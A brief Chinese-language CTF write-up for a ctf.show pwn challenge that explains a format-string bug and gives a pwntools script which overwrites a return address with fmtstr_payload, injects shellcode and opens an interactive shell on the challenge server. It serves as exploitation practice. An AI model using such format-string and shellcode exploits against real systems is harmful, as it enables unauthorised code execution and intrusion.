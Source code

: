 # 挑战简介
多种姿势

# 思路
很基础的一道题，考了格式化字符串  

3个选项 
- 第一个选项：展示栈的位置，并允许你向栈内输入数据
- 第二个选项：输出栈内数据，格式化字符串主要输出点
- 第三个选项：退出，并执行返回语法

思路很清晰了，先选第一个选项，再找出输入数据的栈位置，找出偏移量，覆盖返回函数，从而返回执行写入的后门函数即可  

```
from pwn import *
from LibcSearcher import *
#context(arch = "amd64",os = 'linux',log_level = 'debug')

context(arch = "i386",os = 'linux',log_level = 'debug')

#io = process("./pwn")

io = remote('pwn.challenge.ctf.show',28242)

elf = ELF('D:\edge 下载\pwn')

io.sendlineafter(b"Quit!!!\n" , '1')

stack = int(io.recvuntil('\n'),16)

ret = stack + 0x41c

payload = fmtstr_payload(16, {ret:stack})

io.sendline(payload)    
io.sendlineafter("Quit!!!\n" , '2')

io.sendlineafter("Quit!!!\n" , '1')

io.sendline(asm(shellcraft.sh()))

io.sendlineafter("Quit!!!\n" , '3')

io.interactive()
```

